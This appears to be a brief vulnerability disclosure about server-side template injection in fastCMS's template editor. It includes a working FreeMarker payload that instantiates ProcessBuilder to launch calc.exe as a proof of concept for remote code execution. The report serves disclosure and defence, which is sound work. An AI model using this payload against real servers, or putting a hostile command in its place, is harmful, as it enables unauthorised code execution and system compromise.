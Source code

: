 There is a Server Side Template Injection vulnerability in the template editing function of the fastCMS system.Click the edit button in the template menu to edit index.html.  
<img width="415" alt="image" src="https://github.com/biantaibao/fastcms_Sever-side-Template-injection/assets/131763503/a3d9bbb3-3fab-49ac-a208-c515955fc19a">  
payload:<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}  
poc:  
![image](https://github.com/biantaibao/fastcms_Sever-side-Template-injection/assets/131763503/44b60489-e477-4c04-9852-e104958dc621)  
When we access the index.xml page, this command is triggered, causing a remote code execution vulnerability.  
http://localhost:8080/index   
![image](https://github.com/biantaibao/fastcms_Sever-side-Template-injection/assets/131763503/072b7c37-952f-4f94-a129-92020f6feaea)




